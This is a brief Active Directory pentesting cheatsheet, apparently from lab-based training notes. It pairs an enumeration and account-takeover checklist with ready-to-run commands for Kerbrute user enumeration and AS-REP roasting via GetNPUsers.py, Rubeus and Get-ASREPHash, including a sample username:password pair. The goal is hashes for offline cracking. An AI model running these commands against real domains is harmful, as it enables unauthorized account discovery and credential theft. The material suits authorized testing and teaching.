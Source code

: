 <hr>
<b>Enumeration checklist</b>
<hr>
- Password Policy readable           []
- Kebrute-able                       []

Account Takeover Checklist

- Vulnerable to ASREP-Roasting       []


<hr>
<b>Cheatsheet</b>
<hr>

<b>Enumeration</b>

<b>Kebrute-ing users</b>

Kerbrute uses pre-authentication to check if a given list of users is valid on the system.

<ol>
  <li>./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results</li>
</ol>

  
Account takeover techniques


<b>ASREP-Roasting:</b>

Exploit technqiues:
<ol>
<li>python GetNPUsers.py CHANGEME.LOCAL/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast</li>
<li>python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast</li>
<li>.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]</li>
<li>Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)</li>
</ol>

